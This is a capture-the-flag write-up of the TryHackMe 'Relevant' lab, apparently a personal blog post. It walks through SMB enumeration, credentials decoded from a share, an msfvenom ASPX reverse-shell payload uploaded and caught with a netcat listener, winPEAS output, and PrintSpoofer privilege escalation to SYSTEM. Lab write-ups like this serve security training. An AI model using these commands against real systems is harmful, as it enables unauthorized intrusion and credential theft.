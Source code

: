 ```yaml
---

title: Box - Relevant
published: true
---
```


Penetration Testing Challenge

[https://tryhackme.com/room/relevant](https://tryhackme.com/room/relevant)

![](/assets/matrix.webp)

* * *

## Task 1 - Pre-Engagement Briefing 

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

   - User.txt
   - Root.txt

Additionally, the client has provided the following scope allowances:

   - Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
   - Locate and note all vulnerabilities found
   - Submit the flags discovered to the dashboard
   - Only the IP address assigned to your machine is in scope
   - Find and report ALL vulnerabilities (yes, there is more than one path to root)

##  Step 1. Obtain System Information

```shell
Nmap 7.92 scan initiated Fri Jun 24 09:16:14 2022 as: nmap -sC -sV -T4 -p80,135,139,445,3389,49663,49667,49669 -oN nmap_second 10.10.89.5
Nmap scan report for 10.10.89.5
Host is up (0.19s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-06-24T16:17:53+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-06-24T16:17:13+00:00
49663/tcp open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h24m01s, deviation: 3h07m51s, median: 0s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-06-24T16:17:15
|_  start_date: 2022-06-24T16:07:41
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-06-24T09:17:16-07:00
```

- ``smbclient -L \\\\10.10.127.174\\`` list smb shares
- ``smbclient \\\\10.10.127.174\\nt4wrksv`` get password.txt file


- Qm9iIC0gIVBAJCRXMHJEITEyMw== ``Bob - !P@$$W0rD!123``
- QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk ``Bill - Juw4nnaM4n420696969!$$$``

##  Gobuster

- gobuster dir -u http://10.10.196.58:49663/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 --no-error

gobuster dir -u http://10.10.196.58:49663/nt4wrksv -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 --no-error

So we found that ``nt4wrksv`` is available on port 49663/nt4wrksv we should be able to upload a reverse shell there and execute it. 

That doesnt seem to work with php files...

Looking up common IIS web application language we can see the common languages are ASP.NET, ISAPI or CGI.

- create msfvenom payload ``msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.x.x.x LPORT=7777 -f aspx > shell.aspx`` and put on the SMB share
- startup netcat listener ``nc -nvlp 7777``
- access the payload we put onto the SMB share to start us a reverse shell. Lets also put on a winpeas to execute now that we're on the system to enumerate some more.
- we can find our uploaded winpead @ c:\inetpub\wwwroot\nt4wrksv

```shell
����������͹ Basic System Information
� Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits
    Hostname: Relevant
    ProductName: Windows Server 2016 Standard Evaluation
    EditionID: ServerStandardEval
    ReleaseId: 1607
    BuildBranch: rs1_release
    CurrentMajorVersionNumber: 10
    CurrentVersion: 6.3
    Architecture: AMD64
    ProcessorCount: 1
    SystemLang: en-US
    KeyboardLang: English (United States)
    TimeZone: (UTC-08:00) Pacific Time (US & Canada)
    IsVirtualMachine: False
    Current Time: 6/26/2022 1:11:50 AM
    HighIntegrity: False
    PartOfDomain: False
    Hotfixes: KB3192137, KB3211320, KB3213986, 

  [?] Windows vulns search powered by Watson(https://github.com/rasta-mouse/Watson)
 [*] OS Version: 1607 (14393)
 [*] Enumerating installed KBs...

[!] CVE-2019-0836 : VULNERABLE
  [>] https://exploit-db.com/exploits/46718
  [>] https://decoder.cloud/2019/04/29/combinig-luafv-postluafvpostreadwrite-race-condition-pe-with-diaghub-collector-exploit-from-standard-user-to-system/

 [!] CVE-2019-1064 : VULNERABLE
  [>] https://www.rythmstick.net/posts/cve-2019-1064/

 [!] CVE-2019-1130 : VULNERABLE
  [>] https://github.com/S3cur3Th1sSh1t/SharpByeBear

 [!] CVE-2019-1315 : VULNERABLE
  [>] https://offsec.almond.consulting/windows-error-reporting-arbitrary-file-move-eop.html

 [!] CVE-2019-1388 : VULNERABLE
  [>] https://github.com/jas502n/CVE-2019-1388

 [!] CVE-2019-1405 : VULNERABLE
  [>] https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/                                                                                                                                        
  [>] https://github.com/apt69/COMahawk

 [!] CVE-2020-0668 : VULNERABLE
  [>] https://github.com/itm4n/SysTracingPoc

 [!] CVE-2020-0683 : VULNERABLE
  [>] https://github.com/padovah4ck/CVE-2020-0683
  [>] https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/cve-2020-0683.ps1

 [!] CVE-2020-1013 : VULNERABLE
  [>] https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/

 [*] Finished. Found 9 potential vulnerabilities.


����������͹ Modifiable Services
� Check if you can modify any service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:
    RmSvc: GenericExecute (Start/Stop)

```

1. ``whoami /priv``
2. https://github.com/itm4n/PrintSpoofer
3. ``wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe`` and put onto SMB share.
4. travel to c:\inetpub\wwwroot\nt4wrksv and ``PrintSpoofer64.exe -i -c cmd``
5. become system admin :smile:

##   Answer the questions below

Travel to Bob's desktop to access his flag

![](/assets/relevant01.png)

After getting Administrator privileges access the admin desktop for the flag.

![](/assets/relevant02.png)

* * *



